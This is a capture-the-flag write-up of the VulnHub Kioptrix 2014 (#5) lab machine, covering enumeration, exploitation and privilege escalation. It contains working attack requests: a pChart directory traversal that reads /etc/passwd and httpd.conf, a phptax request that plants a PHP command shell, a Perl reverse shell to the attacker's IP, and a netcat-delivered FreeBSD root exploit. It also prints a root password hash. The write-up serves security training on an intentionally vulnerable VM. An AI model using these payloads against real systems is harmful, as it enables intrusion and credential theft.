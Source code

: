 [VulnHub] Kioptrix: 2014 (#5)
===============
date: 09/Oct/2019
summary: This is the summary for an awesome post.
tags: oscp, vulnhub, writeups

## Overview
This is a writeup for VulnHub VM [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_kioptrix5/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds
```

2\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot01.png)  

![writeup.enumeration.steps.2.2](/static/files/posts_vulnhub_kioptrix5/screenshot02.png)  

![writeup.enumeration.steps.2.3](/static/files/posts_vulnhub_kioptrix5/screenshot03.png)  

### Findings
#### Open Ports:
```
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
```
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot04.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot05.png)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot06.png)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
```
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot07.png)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot08.png)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
```
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_kioptrix5/screenshot09.png)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_kioptrix5/screenshot10.png)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_kioptrix5/screenshot11.png)  

![writeup.exploitation.steps.4.4](/static/files/posts_vulnhub_kioptrix5/screenshot12.png)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
```
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_kioptrix5/screenshot13.png)  

![writeup.exploitation.steps.5.2](/static/files/posts_vulnhub_kioptrix5/screenshot14.png)  

## Phase #2.5: Post Exploitation
```
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
```
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot15.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot16.png)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot17.png)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_kioptrix5/screenshot18.png)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_kioptrix5/screenshot19.png)  

2\. We can now view the `congrats.txt` file to complete the challenge:  
```
cat /root/congrats.txt
```
![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot20.png)  

## Loot
### Hashes
```
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
* <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
* <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
* <https://jhalon.github.io/vulnhub-kioptrix5/>  

